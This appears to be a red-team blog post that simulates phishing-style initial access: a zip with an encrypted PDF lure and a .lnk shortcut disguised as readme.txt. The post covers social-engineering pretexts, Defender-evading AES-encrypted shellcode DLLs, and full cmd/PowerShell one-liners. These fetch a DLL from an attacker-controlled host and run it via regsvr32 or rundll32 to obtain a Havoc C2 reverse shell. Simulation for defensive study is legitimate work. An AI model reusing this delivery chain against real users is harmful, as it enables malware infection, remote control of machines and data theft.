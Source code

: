 ```yaml
---
title: "Initial Access Simulation" 
layout: "post"
---
```


In this specific scenario we will try to experiment and simulate a malware payload delivery using the following technique frequently used by Threat Actors (TA): 

- Zip Folder
- .LNK file execution
- DLL Execution 
- Havoc C2C comunications

We will discuss a simple, minimal and baseline approach and we will take into account fews considerations regarding the initial access aspects. 



In normal red team campain it is paramount to find a way to deliver the malicious payload and force the user to interact with our files. 
For this reason, in this particular scenario, we will try to simulate a .zip delivery containing two distinct file. 
The firs file inside the `.zip` will be an encrypted PDF document (sign contract, legal document, CV, just use your immagination), the second one will be a `.lnk` shortcut file masquerade as a text file (`readme.txt`). 
The idea here is the following: the user receive the files (could be via email or via MS Teams) and try to open up the encrypted pdf, which will ask the user to specify a password and then the user will open up the fake notepad file to recover the original PDF's password. 
By doint so the `.lnk` shortcut file in the background will execute the tasks necessary to deliver and execute our malicious DLL.  



## 1) Introduction Initial Access 

Initial Access involves a range of techniques employed by threat actors to establish their initial presence within a target network. 
These methods encompass various entry vectors that serve as a foothold into the network. 
One particularly relevant technique is the employment of targeted spear-phishing campaigns. 
In these campaigns, attackers meticulously craft deceptive emails tailored to deceive recipients, often leading them to unknowingly disclose sensitive credentials or execute malicious attachments. 

This tactic holds significant relevance as successful spear-phishing attempts can grant attackers direct access to a network, bypassing many traditional security measures. 
In addition, threat actors frequently exploit vulnerabilities present in public-facing web servers to penetrate the network's defenses. It's noteworthy that initial access points gained through these techniques could grant ongoing access, such as using compromised accounts and external remote services. 

However, the effectiveness of these access points might diminish due to changing passwords or other security measures. 
Analyzing historical attacks by prominent threat actors reveals that these tactics are recurrently employed to breach networks, underscoring the significance of robust initial access security measures."

In a recent [DarkGate Loader campain](https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams) theat actors abused the Microsoft Teams tools to spread malware leveraging messages sent from two external Office 365 accounts compromised prior to the campaign. The message content aimed to social engineer the recipients into downloading and opening a malicious file hosted remotely.

 



## 2) Defender Bypass Payload

We are not going into details on how we created this stealth DLL payload in this blogpost. 
Is it obviously possible to used any payload you want, the only assumption is that the paylod itself must be undetected by Defender AV and static signature. 
The DLL itself is pretty simple and perform the classic injection using the VirtualAlloc Windows API. 
However, to bypass static signature, the shellcode is encrypted with AES, functions and relevant strings were renamed.
Inside the DLL we have also included the AES Key to decrypt the shellcode as well as the AES Decryption. Please note that in this case the AES Key is hardcoded inside the malware.  

__Note:__ Since we are saving a payload into the disk we don't need to worry about AMSI at this stage. We are not operating in memory even though this can be considered not OPSEC safe. 



## 3) Weaponize Payload Delivery with LNK 

Firt of all we need to create a shortcut file that will be delivered in the `zip` folder with the encrypted PDF. Right click on your Desktop, click on create shortcut and you must enter the full path of `cmd.exe`, in this case it will be `C:\Windows\System32\cmd.exe`. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk.PNG">
</p>


After that we can specify readme.txt as a shortcut name. (remember we want the user to click on the shortcut file thinking it is a text file with the password to decrypt the PDF). Since we don't want to show the typical `cmd.exe` icon, which might look suspicious, we can then add a specific icon that in this specific case will be notepad. Now we need to click on the shortcut properties and changhe the icon to match to notepad.txt (default windows text editor). 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk2.PNG">
</p>

Now we can craft the powershell command to download the DLL from a remote location. This must be specified inside the shortcut target menu interface. Then we can specify the output where to save the `.dll` file. For this we will leverage the `%TMP%` environment variable of Windows so we don't even need to know the local user accoun name and path. 

The full command specified inside the shortcut file is the following: 

```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && regsvr32 %TMP%\h.dll 
```
__Note:__ The powershell download can be also be performed with the usual suspect IEX Download String function. 🚩

Furthermore, the above command is included inside the readme.txt.lnk file which will look like this to the end user. 

Below we can see the files that will be displayed to the user after unziping the `.zip` folder delivered via email or when possible via Microsft Teams. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/Invoice.PNG">
</p>

__Note:__ Obviously we can create a .lnk file with the desired command and subsequently add the typical pdf icon. 🚩

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/lnk3.PNG">
</p>



Upon executing the `readme.txt` file on the victim machine we can see a web request made on the attacker controlled webserver. 

<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/down.JPG">
</p>

Furthermore, as soon as the file is downloaded and executed we can see our reverse shellcode in the Havoc C2C framework. 


<p align="center">
  <img src="/assets/posts/2022-06-01-Initial-Access-Simulation/hav1.JPG">
</p>

With some modification on the `.dll` file we can also perform the same activity using the `rundll32` windows binary. 


```powershell 
C:\Windows\System32\cmd.exe /c powershell.exe wget http://192.168.133.152:1234/h.dll -OutFile %TMP%\h.dll && rundll32 %TMP%\h.dll,helo
```
The command is pretty similar even though in this case we need to specify the export function name declared in our `.dll` (helo)

<video src="/assets/posts/2022-06-01-Initial-Access-Simulation/hvc1.mp4" controls="controls" style="max-width: 730px;">
</video>



## 4) Conclusion and Limitation


In a recent malware campaing analyzed by the Unit42 of Palo Alto corporation a threat acrors were identified abusing similar TTP's. Specifically, this sample was packaged as a self-contained ISO. Included in the ISO was a Windows shortcut (LNK) file, a malicious payload DLL and a legitimate copy of Microsoft OneDrive Updater. 

This unique sample was packaged in a manner consistent with known APT29 techniques and their recent campaigns, which leveraged well-known cloud storage and online collaboration applications. Specifically, this sample was packaged as a self-contained ISO. Included in the ISO was a Windows shortcut (LNK) file, a malicious payload DLL and a legitimate copy of Microsoft OneDrive Updater. Attempts to execute the benign application from the ISO-mounted folder resulted in the loading of the malicious payload as a dependency through a technique known as DLL search order hijacking. However, while packaging techniques alone are not enough to definitively attribute this sample to APT29, these techniques demonstrate that users of the tool are now applying nation-state tradecraft to deploy BRc4. 

For further reading you can refer to these two well detailed blog posts regarding APT 29 and their possibile relevant activities. 

- [Palo Alto](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)
- [Yoroi](https://yoroi.company/research/how-an-apt-technique-turns-to-be-a-public-red-team-project/)



## References 

- https://www.truesec.com/hub/blog/darkgate-loader-delivered-via-teams

- PackMyPayload https://github.com/mgeeky/PackMyPayload